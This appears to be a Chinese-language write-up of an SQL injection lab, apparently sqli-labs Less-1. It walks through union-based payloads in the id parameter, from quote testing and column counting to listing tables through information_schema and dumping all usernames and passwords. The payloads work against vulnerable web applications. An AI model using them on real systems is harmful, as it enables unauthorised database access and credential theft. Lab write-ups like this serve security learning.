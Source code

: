 `?id=1`

返回

```
Your Login name:Dumb
Your Password:Dumb
```

注入

`?id=1 and 1=1 跟?id=1 and 1=2`

都没有报错，说明是字符型注入

那就尝试拼接字符串?id=1' and '1'='1

返回

```
Your Login name:Dumb
Your Password:Dumb
```

说明大体方向没错，那就可以去尝试确定表单的列数

`?id=1' and '1'='1' order by 3--+`

在尝试到4的时候，页面开始报错，说明列数为3，再看看回显位

`?id=-1' union select 1,2,3--+`

![QQ截图20241124192755.png](https://www.helloimg.com/i/2024/11/24/67430ca82cd42.png)

2,3列为回显位

剩下就可以把它开盒了

`?id=-1' union select 1,database(),version()--+`看看数据库名字和sql版本

![QQ截图20241124203010.png](https://www.helloimg.com/i/2024/11/24/67431b4376122.png)

输入

`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`

将返回security下的所有表单名字，猜测所有账号密码应该在users里面

![](https://img2020.cnblogs.com/blog/2075370/202010/2075370-20201001191039433-1928732598.png)

输入

`?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_name='users'--+`

返回users表单的所有列名id,password,username

输入

`?id=-1' union select 1,2,group_concat(0x5c,username,0x5c,password) from users--+`

